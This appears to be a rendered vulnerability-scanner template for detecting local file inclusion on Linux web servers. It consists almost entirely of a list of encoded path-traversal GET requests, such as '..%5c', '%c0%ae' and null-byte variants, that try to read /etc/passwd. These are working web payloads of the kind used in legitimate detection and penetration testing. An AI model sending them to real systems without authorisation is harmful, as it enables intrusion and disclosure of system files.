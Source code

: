 
# Generic Linux - Local File Inclusion

## Description

- Generic Linux is subject to local file Inclusion on searches for /etc/passwd on passed URLs.
- severity - high
- tags - linux,lfi,generic

## Requests

- Method - GET

### URL

- {{BaseURL}}/etc/passwd
- {{BaseURL}}/..%5cetc/passwd
- {{BaseURL}}/..%5c..%5cetc/passwd
- {{BaseURL}}/..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/static/..%5cetc/passwd
- {{BaseURL}}/static/..%5c..%5cetc/passwd
- {{BaseURL}}/static/..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/static/..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/static/..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/static/..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/static/..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/./../../../../../../../../../../etc/passwd
- {{BaseURL}}/%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2e%2eetc/passwd
- {{BaseURL}}/%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5cetc/passwd
- {{BaseURL}}/.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./.%5C%5C./etc/passwd
- {{BaseURL}}/..0x5c..0x5c..0x5c..0x5c..0x5c..0x5c..0x5c..0x5cetc/passwd
- {{BaseURL}}/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
- {{BaseURL}}/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/etc/passwd
- {{BaseURL}}/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
- {{BaseURL}}/..///////..////..//////etc/passwd
- {{BaseURL}}/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
- {{BaseURL}}/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
- {{BaseURL}}/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
- {{BaseURL}}/index.php?page=etc/passwd
- {{BaseURL}}/index.php?page=etc/passwd%00
- {{BaseURL}}/index.php?page=../../etc/passwd
- {{BaseURL}}/index.php?page=....//....//etc/passwd
- {{BaseURL}}/../../../../../../../../../etc/passwd
